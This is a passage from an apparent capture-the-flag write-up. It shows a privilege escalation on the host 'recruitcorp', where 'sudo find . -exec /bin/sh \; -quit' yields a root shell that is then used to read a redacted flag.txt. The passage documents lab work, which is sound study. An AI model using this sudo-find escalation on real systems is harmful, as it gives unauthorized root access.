jford@recruitcorp:~$ sudo find . -exec /bin/sh \; -quit
# whoami
root
```

Found root flag: 

```shell
# cd /root 
# ls       
flag.txt  snap
# cat flag.txt
—REDACTED—
```

### Question —What is the content of flag.txt?

**Answer:** `—REDACTED—`